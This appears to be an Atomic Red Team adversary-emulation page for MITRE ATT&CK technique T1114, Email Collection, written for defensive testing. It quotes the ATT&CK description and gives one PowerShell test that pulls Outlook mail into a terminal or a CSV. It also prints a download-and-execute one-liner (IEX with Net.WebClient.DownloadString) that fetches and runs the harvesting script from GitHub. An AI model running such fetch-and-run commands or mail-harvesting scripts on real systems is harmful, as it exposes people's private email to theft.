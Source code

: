 # T1114 - Email Collection
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1114)
<blockquote>Adversaries may target user email to collect sensitive information from a target.

Files containing email data can be acquired from a user's system, such as Outlook storage or cache files .pst and .ost.

Adversaries may leverage a user's credentials and interact directly with the Exchange server to acquire information from within a network.

Some adversaries may acquire user credentials and access externally facing webmail applications, such as Outlook Web Access.</blockquote>

## Atomic Tests

- [Atomic Test #1 - T1114 Email Collection with PowerShell](#atomic-test-1---t1114-email-collection-with-powershell)


<br/>

## Atomic Test #1 - T1114 Email Collection with PowerShell
Search through local Outlook installation, extract mail, compress the contents, and saves everything to a directory for later exfiltration.

**Supported Platforms:** Windows


#### Run it with `command_prompt`! ```
Display email contents in the terminal
  PS C:\> .\Get-Inbox.ps1

Write emails out to a CSV
  PS C:\> .\Get-Inbox.ps1 -file "mail.csv"

Download and Execute
  "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1114/Get-Inbox.ps1')"
```
<br/>
